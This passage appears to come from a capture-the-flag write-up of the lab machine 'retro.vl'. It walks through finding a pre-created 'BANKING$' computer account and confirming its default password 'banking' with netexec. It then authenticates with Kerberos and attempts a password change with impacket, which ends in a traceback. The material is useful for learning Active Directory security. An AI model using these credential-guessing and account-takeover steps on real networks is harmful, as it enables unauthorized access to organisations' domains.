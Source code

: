 We see that we have two important files in that share, `user.txt` which is the user flag for the challenge, and `ToDo.txt` which seems important.

Upon downloading the files, reading `ToDo.txt` displayed this message

```powershell
└─$ cat ToDo.txt                                                  
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James
```

The keywords here are `finance`, `banking`, and `pre created computer account`.

If we go back to the list of users we enumerated before, we see that there’s a computer account called `BANKING$`. The note did mention that it’s a pre-created computer account.
pre-created computer accounts were a thing in the past, where an account gets pre-created with the password being the username all lowercase.

Let’s try this and see if it works.

```powershell
└─$ netexec smb $(cat ip) -u 'BANKING$' -p "banking"   
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

We got the error `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.

The error is not “wrong password”, so this means we guessed it correctly.

This error is common with pre2k accounts, to get around this issue you either have to change the password of the account, or use kerberos authentication.

### Using Kerberos Authentication

```powershell
└─$ netexec smb $(cat ip) -u 'BANKING$' -p "banking" -k
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [+] retro.vl\BANKING$:banking
```

### Changing pre2k account password

```powershell
└─$ impacket-changepasswd -newpass glitch 'retro.vl/BANKING$:banking@dc.retro.vl'                                                                                       
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies                                                                                              
                                                                                                                                                                        
[*] Changing the password of retro.vl\BANKING$                                                                                                                          
[*] Connecting to DCE/RPC as retro.vl\BANKING$                                                                                                                          
Traceback (most recent call last):                                                                                                                                      
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 280, in login                                                                                   
    return self._SMBConnection.login(user, password, domain, lmhash, nthash)                                                                                            
```
